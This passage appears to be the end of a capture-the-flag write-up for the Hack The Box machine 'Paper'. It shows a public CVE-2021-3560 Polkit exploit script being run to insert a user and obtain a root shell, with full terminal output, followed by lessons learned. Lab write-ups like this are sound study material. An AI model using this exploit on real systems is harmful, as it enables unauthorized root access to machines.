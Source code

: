 ```
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
```

Downloaded the exploit script and uploaded it to the Paper machine. Had to run it a couple of times for the timing attack to work.

```
[dwight@paper ~]$ ./poc.sh -u=test -p=test -f=y

[!] Username set as : test
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag '-f=y' specified.
[!] Vulnerability checking is DISABLED!
[!] Starting exploit...
[!] Inserting Username test...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username test  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - test
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper ~]$ su - test
Password:
[test@paper ~]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for test: 
[root@paper test]#
```

Root flag obtained!

## Lessons Learned

- Enumerate both HTTP and HTTPS versions of a site, even when they appear the same
- Don't always rely on tools being accurate, and don't forget your manual enumeration methods to accompany tools

## Useful Resources

- [HTB: Paper by 0xdf](https://0xdf.gitlab.io/2022/06/18/htb-paper.html)
